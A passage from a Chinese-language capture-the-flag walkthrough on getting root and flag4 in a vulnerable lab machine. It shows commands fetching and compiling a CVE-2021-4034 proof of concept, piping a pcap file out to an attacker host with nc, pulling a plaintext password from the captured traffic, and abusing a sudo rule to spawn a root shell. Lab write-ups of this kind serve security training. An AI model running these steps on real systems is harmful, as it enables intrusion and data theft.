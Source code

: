 获得flag3!

12、获取flag4方法

方法1：cve-2021-4034

wget https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c
wget http://192.168.4.55:8081/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o dayu
chmod +x dayu
./dayu

cd /root/Desktop

flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

成功获得flag4！

------------
方法2：
在/home/stinky/Documents目录下枚举发现derpissues.pcap流量包文件！下载到本地kali枚举！

-----

kali执行：
nc -l -p 8888 > derp.pcap

靶场执行:
nc 192.168.253.138 8888 < derpissues.pcap
-----
wireshark derp.pcap 分析！

1)tcp.stream eq 48    ---tcp追踪  如果追踪UDP就改即可
或者：
2）frame contains mrderp  /login  ---查看流量中登录信息
3）http.request.method == "POST"  ---过滤查看POST请求信息打开双击查看

log=mrderp&pwd=derpderpderpderpderpderpderp

获得账号密码：
mrderp
derpderpderpderpderpderpderp

su mrderp   ---成功登录

sudo -l
(ALL) /home/mrderp/binaries/derpy*

写入脚本覆盖derpy：
-----
#!/bin/bash
bash -i
------
nano dayu.sh
chmod +x dayu.sh

cd /home/mrderp
mkdir binaries
cd binaries
cp /tmp/dayu.sh .
mv dayu.sh derpy.sh
sudo ./derpy.sh
